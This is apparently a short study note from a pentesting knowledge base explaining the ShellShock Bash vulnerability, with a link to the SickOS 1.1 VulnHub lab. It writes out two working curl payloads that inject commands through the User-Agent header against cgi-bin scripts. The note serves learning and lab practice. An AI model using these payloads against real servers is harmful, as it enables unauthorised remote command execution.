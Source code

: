 
# What is an ShellShock attack

It's a vulnerability recognized in GNU/Linux system that allow to an attacker to execute commands from a remote mode, know as **Bashdoor** 

This vulnerability was discover in 2014

---

# When can exploit this?

- When the version of the GNU Bash will be 1.13-**4.3** version
- Normally if you find a **/cgi-bin/** is recommendable to enum a shell shock attack

---


# Exploiting

A practice example of exploiting this is [SickOS 1.1](../../CTF/VulnHub/SickOS%201.1.md) machine from VulnHub

In cgi-bin folder, you can enum files with some of this extensions: ls,sh,cgi, you can use [Gobuster](../../Tools/Enumeration/Gobuster.md)

To exploit this attack we are going to play with the **User-Agent** 

In this case we can use this oneline, from the [cloudflare blog website](https://blog.cloudflare.com/inside-shellshock/):

````bash
curl -H "User-Agent: () { :; }; /bin/eject" http://
````

With /bin/eject you are able to open the floppy drive

But in this case we are going to util this:

````bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.38:3128 -H "User-Agent: () { :; }; /usr/bin/whoami"
````

----

# Labs

You can use [SickOS 1.1](../../CTF/VulnHub/SickOS%201.1.md) machine from Vulnhub (don't realize by an error to discover the machine)

---

# Tags

#vulnerabilty #shellshock